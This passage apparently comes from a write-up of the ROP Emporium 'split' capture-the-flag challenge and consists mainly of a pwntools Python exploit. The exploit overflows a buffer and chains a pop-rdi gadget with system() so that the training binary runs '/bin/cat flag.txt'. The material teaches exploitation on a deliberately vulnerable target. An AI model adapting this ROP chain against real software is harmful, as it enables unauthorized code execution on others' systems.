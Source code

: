 ```python

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

# -- Exploit goes here --
junk = 'A'*40 #Controlling RIP Register
usefulString = p64(exe.symbols.usefulString) #/bin/cat flag.txt
system = p64(exe.symbols.system) #Creating the system call
pop_rdi = p64(0x00400883) #Putting the string onto RDI

payload = ""
payload += junk
payload += pop_rdi
payload += usefulString
payload += system

io = start()
io.recvuntil('> ')
io.sendline(payload)
log.success('Flag: ' + io.recv(512))
```

![Flag](assets/images/posts/2019/08/ropemporium-1-split/image-13.png)

GitHub: [https://github.com/Securitybits-io/ROPEmporium](https://github.com/Securitybits-io/ROPEmporium)
